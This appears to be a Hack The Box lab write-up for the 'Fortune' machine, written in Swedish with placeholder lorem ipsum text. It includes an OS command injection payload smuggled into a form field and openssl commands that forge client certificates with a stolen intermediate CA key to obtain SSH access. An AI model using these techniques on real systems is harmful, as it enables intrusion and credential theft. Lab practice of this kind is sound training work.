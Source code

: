 ```yaml
---
layout: single
title: Fortune - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-06-25
classes: wide
header:
  teaser: /assets/images/htb-writeup-fortune/fortune_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-fortune/fortune_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


### USER ###

1. Basic enum shows port 22,80,443. 443 har cert error, 80 anropar en db med fortunes, 22 saknar vi creds för

2. dirb visar inget spännande. Kör en crawl/audit i burp på http://10.10.10.127 och ser att den är vulnerable för os command- och code injection.

3. Skickar POST Request till Repeater och söker mig runt i burken efter cert filer och användare:
POST /select HTTP/1.1
Host: 10.10.10.127
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

db=fortune|ls -al /home

4. Hittar 3 användare: bob, charlie och nfsuser. Bob har massor av cert-filer vilket känns intressant. Charlie kommer man ej åt så chansar att user.txt finns här. nfsuser har en mer eller mindre tom hemkatalog

5. Plockar hem alla filer från bob så jag har följade filstruktur:
#tree
.
├── bob
│   ├── ca
│   │   ├── certs
│   │   │   └── ca.cert.pem
│   │   ├── index.txt
│   │   ├── index.txt.attr
│   │   ├── intermediate
│   │   │   ├── certs
│   │   │   │   ├── ca-chain.cert.pem
│   │   │   │   ├── fortune.htb.cert.pem
│   │   │   │   ├── intermediate.cert.pem
│   │   │   │   └── intermediate.cert.srl
│   │   │   ├── crlnumber
│   │   │   ├── csr
│   │   │   │   ├── fortune.htb.csr.pem
│   │   │   │   └── intermediate.csr.pem
│   │   │   ├── index.txt
│   │   │   ├── newcerts
│   │   │   │   └── 1000.pem
│   │   │   ├── openssl.cnf
│   │   │   └── private
│   │   │       └── intermediate.key.pem
│   │   ├── newcerts
│   │   │   └── 1000.pem
│   │   ├── openssl.cnf
│   │   ├── serial
│   │   └── serial.old
│   └── dba
│       └── authpf.sql

6. För enkelhet skapa en dir som heter custom-certs utanför dir bob. Skapa custom cert-key samt request för bob och charlie (subj-info tagen från bob/ca/index.txt samt bob/ca/intermediate/index.txt) i nyskapade custom-cert dir'en:
openssl req -newkey rsa:4096 -keyout bob_key.pem -out bob_csr.pem -nodes -days 365 -subj "/C=CA/ST=ON/O=Fortune Co HTB/CN=Fortune Intermediate CA/emailAddress=bob@fortune.htb"

openssl req -newkey rsa:4096 -keyout charlie_key.pem -out charlie_csr.pem -nodes -days 365 -subj "/C=CA/ST=ON/O=Fortune Co HTB/CN=fortune.htb/emailAddress=charlie@fortune.htb"

7. Döp om filerna för enkelhetensskull:
mv bob_key.pem bob.key && mv bob_csr.pem bob.csr
mv charlie_key.pem charlie.key && mv charlie_csr.pem charlie.csr

#ls -al
total 24
drwxr-xr-x 1 root root  108 Jun 26 14:25 .
drwxr-xr-x 1 root root  196 Jun 26 14:10 ..
-rw-r--r-- 1 root root 1716 Jun 26 14:11 bob.csr
-rw------- 1 root root 3272 Jun 26 14:11 bob.key
-rw-r--r-- 1 root root 1704 Jun 26 14:12 charlie.csr
-rw------- 1 root root 3272 Jun 26 14:12 charlie.key

8. Signera certificate requests med intermediate.key (pwd = htb/machines/fortune/custom-certs):
openssl x509 -req -days 365 -in bob.csr -CA ../bob/ca/intermediate/certs/intermediate.cert.pem -CAkey ../bob/ca/intermediate/private/intermediate.key.pem -CAcreateserial -out bob.crt

openssl x509 -req -days 365 -in charlie.csr -CA ../bob/ca/intermediate/certs/intermediate.cert.pem -CAkey ../bob/ca/intermediate/private/intermediate.key.pem -CAcreateserial -out charlie.crt

9. Konvertera .crt till .p12 för att kunna använda dem i Firefox, lämna password blankt (pwd = htb/machines/fortune/custom-certs):
openssl pkcs12 -export -out bob.p12 -inkey bob.key -in bob.crt -certfile ../bob/ca/intermediate/certs/intermediate.cert.pem
openssl pkcs12 -export -out charlie.p12 -inkey charlie.key -in charlie.crt -certfile ../bob/ca/intermediate/certs/intermediate.cert.pem

10. Importera charlie.p12 i Firefox och surfa in på https://10.10.10.127 för att få SSH key pair
options -> preferences -> advanced -> certificates -> view certificates -> your certificates -> import -> select charlie.p12 -> ok

11. Tryck på "generate" och spara ner public key i /root/.ssh/id_rsa.pub (perm 644) samt private i /root/.ssh/id_rsa (perm 600)

12. Logga in som nfsuser med public key.
    ssh nfsuser@10.10.10.127

